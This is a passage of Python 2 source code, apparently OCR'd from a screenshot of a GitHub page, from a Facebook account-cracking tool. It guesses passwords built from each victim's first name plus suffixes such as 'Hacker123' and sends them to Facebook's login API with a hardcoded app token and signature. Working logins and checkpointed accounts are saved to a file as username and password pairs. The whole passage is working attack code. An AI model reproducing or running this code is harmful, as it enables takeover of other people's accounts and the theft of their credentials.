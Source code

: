                                                                                                  print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5 
                                                                                                 oks.append(user+pass5) 
                                                                                         else: 
                                                                                                 if 'www.facebook.com' in q["error_msg"]: 
                                                                                                         print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5 
                                                                                                         cek = open("out/checkpoint.txt", "a") 
                                                                                                         cek.write(user+"|"+pass5+"\n") 
                                                                                                         cek.close() 
                                                                                                         cekpoint.append(user+pass5) 
                                                                                                 else: 
                                                                                                         pass6 = b['first_name'] + 'Hacker123' 
                                                                                                         data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6") 
                                                                                                         q = json.load(data) 
                                                                                                         if 'access_token' in q: 
                                                                                                                 print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6 
                                                                                                                 oks.append(user+pass6) 
                                                                                                         else: 
                                                                                                                 if 'www.facebook.com' in q["error_msg"]: 
                                                                                                                         print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6 
                                                                                                                         cek = open("out/checkpoint.txt", "a") 
                                                                                                                         cek.write(user+"|"+pass6+"\n") 
                                                                                                                         cek.close() 
                                                                                                                         cekpoint.append(user+pass6) 
                                                                                                                 else: 
                                                                                                                         a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket) 
                                                                                                                         b = json.loads(a.text) 
                                                                                                                         pass7 = b['first_name'] + '456456' 
                                                                                                                         data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6") 
                                                                                                                         q = json.load(data) 
                                                                                                                         if 'access_token' in q: 
                                                                                                                                 print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7 
                                                                                                                                 oks.append(user+pass7) 
                                                                                                                         else: 
                                                                                                                                 if 'www.facebook.com' in q["error_msg"]: 
                                                                                                                                         print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7 
